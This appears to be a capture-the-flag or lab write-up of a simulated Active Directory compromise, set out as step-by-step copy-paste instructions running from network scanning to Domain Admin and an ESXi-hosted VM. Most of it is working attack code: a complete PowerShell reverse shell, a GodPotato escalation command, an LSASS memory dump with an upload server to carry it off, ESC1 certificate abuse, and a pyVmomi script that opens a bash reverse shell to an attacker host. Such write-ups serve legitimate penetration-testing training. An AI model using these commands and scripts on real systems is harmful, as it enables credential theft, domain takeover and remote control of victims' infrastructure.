# Overview

This lab simulates a full internal Active Directory compromise scenario.  
The objective was to escalate privileges to Domain Admin and pivot into the virtual infrastructure (ESXi) to retrieve the final flag.

The attack chain demonstrates how multiple misconfigurations can lead to full enterprise compromise.

---

# 1. Network Discovery

## UDP DNS Scan

```bash
nmap -sU -p 53 --open 10.5.2.0/24
```

Discovered active DNS services:

- 10.5.2.2
- 10.5.2.99
- 10.5.2.111  
(10.5.2.1 was out of scope)

### 📸 Screenshot


---

# 2. Reverse DNS Enumeration

```bash
for i in {1..254}; do echo -n "10.5.2.$i "; dig @10.5.2.99 +short -x 10.5.2.$i; done
```

Discovered internal hosts:

- dc01.telecore.ad
- PKI-Srv.telecore.ad
- Ex-Srv.telecore.ad
- SQL-Srv.telecore.ad
- ESXi-VD.telecore.ad

### 📸 Screenshot


---

# 3. DNS Zone Transfer

```bash
dig @10.5.2.99 2.5.10.in-addr.arpa AXFR
```

Zone transfer was enabled, exposing the full internal infrastructure.

This is a critical DNS misconfiguration.

### 📸 Screenshot


---

# 4. LDAP Enumeration & AS-REP Roasting

## User Enumeration

```bash
ldapsearch -x -H ldap://10.5.2.2 -b 'DC=TELECORE,DC=AD' 'objectClass=user'
```

Users saved into `users.txt`.

## AS-REP Attack

```bash
impacket-GetNPUsers telecore.ad/ -dc-ip 10.5.2.2 -usersfile users.txt
```

Hash recovered for:

- tel_support01

### 📸 Screenshot


---

# 5. Password Cracking

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

Password successfully cracked.

Initial domain credentials obtained.

---

# 6. MSSQL Access & Command Execution

```bash
impacket-mssqlclient tel_support01:'<Cracked_Pass>'@10.5.2.22 -windows-auth
```

Enabled:

```sql
enable_xp_cmdshell
```

Tested execution:

```sql
xp_cmdshell whoami
```

Reverse shell established using encoded PowerShell payload.

### 📸 Screenshots



---

# 7. Privilege Escalation (SeImpersonate → GodPotato)

Checked privileges:

```cmd
whoami /priv
```

`SeImpersonatePrivilege` was enabled.

Used GodPotato exploit to escalate to:

```
NT AUTHORITY\SYSTEM
```
Create a file named:

```
rev.ps1
```

Paste the following PowerShell reverse shell code inside:

```
$client = New-Object System.Net.Sockets.TCPClient('kali_ip', 1234);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex ". { $data } 2>&1" | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};
$client.Close()
```
Convert Script to Base64 :

```bash
cat rev.ps1 | iconv -t UTF-16LE | base64 -w 0
```

Start listener on attacker machine :

```
nc -nlvp 1234
```
Execute the following with your base64 encoded payload on the SQL-Srv :

```
cmd /c GodPotato-NET4.exe -cmd "powershell -nop -w hidden -enc AAAAA.."
```
### 📸 Screenshots




---

# 8. LSASS Dump & Credential Extraction

Identified LSASS PID:

```cmd
tasklist /fi "imagename eq lsass.exe"
```

Dumped memory

```cmd
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump <PID> C:\Users\Public\lsass.dmp full
```

Compressed file.

```
Compress-Archive -Path lsass.dmp -DestinationPath lsass.zip
```
Create a file named :

```
server.py
```
Paste :


```
import http.server
import socketserver
import os

class MyHttpRequestHandler(http.server.SimpleHTTPRequestHandler):
    def do_POST(self):
        content_length = int(self.headers['Content-Length'])
        post_data = self.rfile.read(content_length)

        # Get the filename from the path (use the requested URL or a default)
        filename = os.path.basename(self.path) or 'uploaded_file.zip'

        # Write the data to a file
        with open(filename, 'wb') as f:
            f.write(post_data)

        # Send a response back to the client
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b'File uploaded successfully!')

        print(f"\n[+] File received and saved as: {filename}")

PORT = 8080
Handler = MyHttpRequestHandler

with socketserver.TCPServer(("", PORT), Handler) as httpd:
    print(f"[+] Server started on port {PORT}")
    print("[+] Waiting for file upload from Windows client...")
    httpd.serve_forever()
```
run : 

```
python3 server.py
```
From our SYSTEM shell on the MSSQL Server, let’s transfer the zip file :

```
Invoke-WebRequest -Uri "http://<VPN_IP>:8080/lsass.zip" -Method Post -InFile "C:\Users\Public\lsass.zip" -Verbose
```

Unzip and Extracted credentials using:

```bash
pypykatz lsa minidump lsass.dmp
```

Recovered credentials for:

- tel_engineer01

### 📸 Screenshot


---

# 9. ADCS Enumeration (ESC1)

```bash
certipy-ad find -u 'tel_engineer01@telecore.ad' -hashes <hash> -dc-ip 10.5.2.2 -enabled -vuln -stdout
```

Identified vulnerable certificate template:

- ESC1
- Enrollee supplies subject
- Client authentication enabled

### 📸 Screenshot


---

# 10. Certificate Abuse → Domain Admin

Retrieved Administrator SID:

```bash
rpcclient --user 'telecore.ad/tel_engineer01' --pw-nt-hash 10.5.2.2 -c "lookupnames administrator"
```

Requested certificate:

```bash
certipy-ad req -u 'tel_engineer01@telecore.ad' -hashes <HASH> \
-target PKI-Srv.telecore.ad \
-ca 'telecore-PKI-SRV-CA' \
-template 'Tel_User' \
-upn 'administrator@telecore.ad' \
-sid 'Administrator_SID'
```

Authenticated using generated PFX:

```bash
certipy-ad auth -pfx administrator.pfx -dc-ip 10.5.2.2
```

Domain Admin hash obtained.

### 📸 Screenshot




---

# 11. Domain Admin Access

```bash
wmiexec.py -hashes :<HASH> administrator@10.5.2.2
```

Confirmed Domain Admin privileges.

Verified ESXi administrative group membership.

### 📸 Screenshot


---

# 12. ESXi Enumeration

Cracked Domain Admin password:

```bash
hashcat -m 1000 -a 0 DA_Hash.txt rockyou.txt
```

Install the pyVmomi package for operations on the ESXi:

```
#It is recommended to upload it to venv.
pip3 install pyVmomi
```
Create a file named :

```
enum_vms.py
```

Paste inside :

```
#!/usr/bin/env python3
import ssl
from pyVim.connect import SmartConnect, Disconnect
from pyVmomi import vim

# SSL sertifikat yoxlamasını dövrədən çıxarırıq (Laboratoriya mühiti üçün)
ctx = ssl._create_unverified_context()

# ESXi məlumatlarını bura daxil et
ESXI_HOST = "10.5.2.111"
USER = "administrator@telecore.ad"
PASS = "domain_admin_pass"

try:
    # ESXi-yə bağlanırıq
    si = SmartConnect(host=ESXI_HOST, user=USER, pwd=PASS, sslContext=ctx)
    content = si.RetrieveContent()

    # Bütün virtual maşınları gəzirik
    container = content.viewManager.CreateContainerView(content.rootFolder, [vim.VirtualMachine], True)
    
    print(f"{'VM Name':<20} | {'Power':<10} | {'IP Address':<15} | {'Notes'}")
    print("-" * 80)

    for vm in container.view:
        # IP ünvanını götürməyə çalışırıq
        ip = vm.guest.ipAddress or (vm.guest.net[0].ipConfig.ipAddress[0].ipAddress if vm.guest.net else "N/A")
        
        # Məlumatları ekrana çap edirik
        print(f"{vm.name:<20} | {vm.runtime.powerState:<10} | {ip:<15} | {vm.config.annotation}")

    Disconnect(si)
except Exception as e:
    print(f"Xəta baş verdi: {e}")
```

Enumerated VMs:

```
python3 enum_vms.py
```

### 📸 Screenshot


---

# 13. Guest OS Command Execution

Used recovered credentials to execute commands inside VaultVM.

Create a file named :

```
cmd_exec.py
```

Insert into : 

```
import ssl, argparse, sys, time
from pyVim import connect
from pyVmomi import vim

ap = argparse.ArgumentParser()
ap.add_argument("--host"); ap.add_argument("--user"); ap.add_argument("--password")
ap.add_argument("--vm"); ap.add_argument("--guest-user"); ap.add_argument("--guest-pass")
ap.add_argument("--cmd"); ap.add_argument("--args", default="")
a = ap.parse_args()

ctx = ssl._create_unverified_context()
si = connect.SmartConnect(host=a.host, user=a.user, pwd=a.password, sslContext=ctx)


vm = [v for v in si.content.viewManager.CreateContainerView(si.content.rootFolder,[vim.VirtualMachine],True).view if v.name==a.vm][0]

pm = si.content.guestOperationsManager.processManager
auth = vim.NamePasswordAuthentication(username=a.guest_user, password=a.guest_pass)

spec = vim.vm.guest.ProcessManager.ProgramSpec(programPath=a.cmd, arguments=a.args)
pid = pm.StartProgramInGuest(vm, auth, spec)

print(f"Started PID {pid}")
time.sleep(2)
print(pm.ListProcessesInGuest(vm, auth, [pid])[0].exitCode)
connect.Disconnect(si)
```

Reverse shell established:

```bash
python3 cmd_exec.py --host 10.5.2.111 \
--user administrator@telecore.ad \
--password 'admin_pass' \
--vm 'VaultVM' \
--guest-user linux \
--guest-pass 'linux_pass' \
--cmd /bin/bash \
--args "-c 'bash -i >& /dev/tcp/attacker_ip/5557 0>&1'"
```

Accessed VaultVM and retrieved final flag.

### 📸 Screenshot



---

